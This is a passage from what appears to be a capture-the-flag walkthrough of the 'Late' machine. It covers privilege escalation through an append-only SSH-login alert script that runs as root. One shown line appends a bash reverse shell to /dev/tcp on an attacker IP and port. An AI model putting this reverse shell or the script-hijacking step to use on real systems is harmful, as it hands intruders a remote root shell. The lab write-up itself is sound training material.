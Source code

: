 The script looks to give out an alert to the root user whenever someone logs in with SSH,
Let's upload [Pspy](https://github.com/DominicBreuker/pspy) to the monitor it in order to check how the script is run.
we can simlpy upload it using scp .

>  [werz@ctf01 user]$ scp -i id_rsa www/pspy32s svc_acc@late.htb:/tmp

so yeah the script runs as root **UID=0** when a ssh connection made.

```bash
2022/08/03 13:50:13 CMD: UID=0    PID=1      | /sbin/init maybe-ubiquity 
2022/08/03 13:50:43 CMD: UID=0    PID=29921  | /usr/sbin/sshd -D -R 
2022/08/03 13:50:43 CMD: UID=110  PID=29922  | sshd: [net]          
2022/08/03 13:50:49 CMD: UID=0    PID=29923  | /bin/bash /usr/local/sbin/ssh-alert.sh 
2022/08/03 13:50:49 CMD: UID=0    PID=29927  | /usr/sbin/sendmail root@late.htb 
2022/08/03 13:50:49 CMD: UID=???  PID=29926  | ???
2022/08/03 13:50:49 CMD: UID=0    PID=29928  | sendmail: MTA: 273DonSW029928 localhost.localdomain [127.0.0.1]: DATA
2022/08/03 13:50:49 CMD: UID=0    PID=29930  | sensible-mda svc_acc@new root  127.0.0.1 
2022/08/03 13:50:49 CMD: UID=0    PID=29929  | sendmail: MTA: ./273DonSW029928 from queue     
2022/08/03 13:50:49 CMD: UID=1000 PID=29931  | sshd: svc_acc        
```

Since the script is being run as root we could potentially gain privileged access to the system by modifying it, with that we have the write permission to the file:

```bash
svc_acc@late:/usr/local/sbin$ ls -l ssh-alert.sh 
-rwxr-xr-x 1 svc_acc svc_acc 433 Aug  3 07:50 ssh-alert.sh
```

but if we attempt to modify to the file using vim or something it rejects:

```bash
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi

bash -i >& /dev/tcp/10.10.16.8/9002 0>&1
"ssh-alert.sh"
"ssh-alert.sh" E212: Can't open file for writing
Press ENTER or type command to continue
```

In addition to file permissions, Unix systems use file attributes. These can be used to further lock down permissions. Let's list the attributes of this specific file with `lsattr` command

```bash
svc_acc@late:/usr/local/sbin$ lsattr ssh-alert.sh
----ia--------e--- ssh-alert.sh
```

The attribute **a** stands for append only , which only allows users to append to a file.

So let's do it with **curl**:
